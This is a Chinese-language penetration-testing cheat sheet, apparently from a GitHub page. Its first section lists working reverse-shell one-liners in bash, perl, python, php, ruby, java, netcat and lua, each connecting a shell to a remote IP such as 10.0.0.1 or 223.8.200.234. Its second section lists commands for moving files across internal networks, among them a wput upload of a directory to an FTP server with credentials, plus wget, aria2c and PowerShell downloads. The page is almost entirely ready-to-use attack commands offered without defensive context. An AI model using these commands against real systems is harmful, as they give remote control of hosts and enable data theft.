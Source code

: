 ### shell反弹 
bash  
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
perl 
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
python 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
php 
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
ruby 
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
java 
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
nc 
```
#使用-e 
nc -e /bin/sh 223.8.200.234 1234 
```
```
#不使用-e
mknod /tmp/backpipe p
/bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

lua 
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 内网文件的传输和下载   
wput 
```
wput dir_name ftp://linuxpig:123456@host.com/
```
wget 
```
wget http://site.com/1.rar -O 1.rar
```
ariac2（需安装） 
```
aria2c -o owncloud.zip https://download.owncloud.org/community/owncloud-9.0.0.tar.bz2
```
powershell
```
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file") 
```